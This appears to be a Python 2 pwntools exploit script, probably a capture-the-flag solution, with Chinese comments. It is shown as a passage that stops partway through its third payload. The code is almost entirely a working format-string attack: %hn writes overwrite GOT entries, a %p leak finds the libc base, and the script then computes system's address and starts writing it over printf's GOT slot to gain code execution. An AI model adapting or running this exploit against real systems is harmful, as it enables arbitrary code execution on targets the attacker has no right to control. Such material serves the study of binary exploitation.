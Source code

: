 ```
'''

def s_sub(a,b):
    if a<b:
       return 0x10000 + a - b #hn,高位会被忽略掉，意思就是说  0x10000 + a - b + b = a
    return a - b 

################payload1##################

n = 6 + 8
pattern = "%{}c%{}$hn" #{}里面最大是五位数0x1000-->65536（四个字节）
#13个字符--->16 (1+5+1+1+2+1+1+1)

payload1 = ""
payload1 += pattern.format(0x806,n)
payload1 += pattern.format(s_sub(0x40,0x806),n+1)
payload1 += pattern.format(s_sub(0,0x40),n+2)
#payload += pattern.format(s_sub(0,0),n+3)
payload1 = payload1.ljust(64,"A")

payload1 += p64(0x601018)
payload1 += p64(0x60101a)
payload1 += p64(0x60101c)
#payload += p64(0x60101e)

#pause()

p.sendline(payload1)

################payload2##################

payload2 = ""
payload2 += "%144$p.%145$p.%146$p" 

pause()

p.sendline(payload2)
p.recvuntil(".")
libc_start_main_ret = int(p.recvuntil(".",drop = True),16)
#print hex(libc_start_main_ret)
log.info("libc_start_main_ret addr: " + hex(libc_start_main_ret))

libc_base = libc_start_main_ret - 0x202e1
system_addr = libc_base + 0x3f480
printf_addr = libc_base + 0x4f190
log.info("system_addr addr: " + hex(system_addr))
log.info("printf_addr addr: " + hex(printf_addr))
print hex(elf.got["printf"])

################payload3##################

pattern = "%{}c%{}$hn" 
n = 6 + 4
system_low = system_addr & 0xffff
system_high = (system_addr >> 16) & 0xffff


log.info("system_low addr: " + hex(system_low))
log.info("system_high addr: " + hex(system_high))

payload3 = ""
payload3 += pattern.format(system_low , n)
payload3 += pattern.format(s_sub(system_high ,system_low) , n+1)
```
